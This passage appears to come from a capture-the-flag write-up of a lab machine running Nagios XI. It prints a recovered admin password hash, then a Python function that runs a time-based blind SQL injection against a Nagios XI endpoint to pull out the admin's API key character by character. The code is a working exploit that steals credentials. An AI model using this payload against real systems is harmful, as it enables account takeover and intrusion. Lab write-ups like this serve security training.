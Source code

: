 ![](img/monitored14.png)

Found "nagiosadmin" user with its password hash, i.e. "$2a$10$825c1eec29c150b118fe7unsfxq80cf7thwc0j0bg2qzinzwrux2c". After some time we conclude that the password hash of the user "nagiosadmin" does not seem crackable. From [https://support.nagios.com/forum/viewtopic.php?p=331564](https://support.nagios.com/forum/viewtopic.php?p=331564), we learn that in the folder "xi_users" there is another very interesting information namely "api_key", which represents the user's API token. The Python script is modified slightly so that the "api_key" of user "nagiosadmin" is extracted. The code snippet below shows the Python function that was needed to extract this information.

```python
def find_apitoken(username):
    API_token = ""
    payload = ""
    found = True

    while found:
        print(f"[-] Current API token: {API_token}")
        found = False
        for letter in alphabet:
            token_attempt = f"{API_token}{letter}"
            payload = f"3 OR IF (('{token_attempt}'=(SELECT SUBSTRING((SELECT api_key FROM xi_users WHERE username = '{username}'), 1, {len(token_attempt)}))), sleep(2),false)"
            data = {
                "action": "acknowledge_banner_message",
                "id": payload,
            }
            start = time.time()
            _ = requests.post(
                f"https://{host}/nagiosxi/admin/banner_message-ajaxhelper.php?token=8f78189a17cb33a12adf5b0165937d61546ba877",
                headers=headers,
                data=data,
                #proxies={"http": "http://127.0.0.1:8080"},
                cookies=cookies,
                verify=False
                )
            end = time.time()
            delay = end - start
            if delay < 2:
                continue
            else:
                print(f"[-] Anomaly request delay: {delay}")
```